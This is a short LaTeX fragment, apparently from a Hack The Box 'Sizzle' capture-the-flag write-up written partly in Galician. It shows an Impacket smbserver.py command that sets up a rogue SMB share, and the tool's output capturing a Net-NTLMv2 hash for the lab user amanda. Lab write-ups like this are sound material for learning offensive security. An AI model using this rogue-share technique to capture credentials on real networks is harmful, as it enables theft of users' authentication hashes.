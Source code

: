 \documentclass[a4paper]{article}
\begin{document}
Agora toca esperar a que algún usuario conéctese ao seu perfil cargándose así o recursos compartido Public:
        \begin{lstlisting}[language=Bash, caption=Capturar Net-NTLMv2 hash, linewidth=18cm]
$ smbserver.py -smb2support TMP Sizzle/exploits
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.103,59567)
[*] AUTHENTICATE_MESSAGE (HTB\amanda,SIZZLE)
[*] User SIZZLE\amanda authenticated successfully
[*] amanda::HTB:aaaaaaaaaaaaaaaa:da2a23f18637081753f3cc42a08c2943:01010000000000000020cf9c0a76d80136ce6c14dbce1b250000
000001001000540064006b005100770071006500670003001000540064006b0051007700710065006700020010006800640073004700770055004c
006900040010006800640073004700770055004c006900070008000020cf9c0a76d801060004000200000008003000300000000000000001000000
00200000d985b54362899eb410d1e753db3de646b5394007aafb76d92da0d8e0da38d3150a00100000000000000000000000000000000000090020
0063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:TMP)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:TMP)
[*] Closing down connection (10.10.10.103,59567)
[*] Remaining connections []\end{lstlisting}
\end{document}
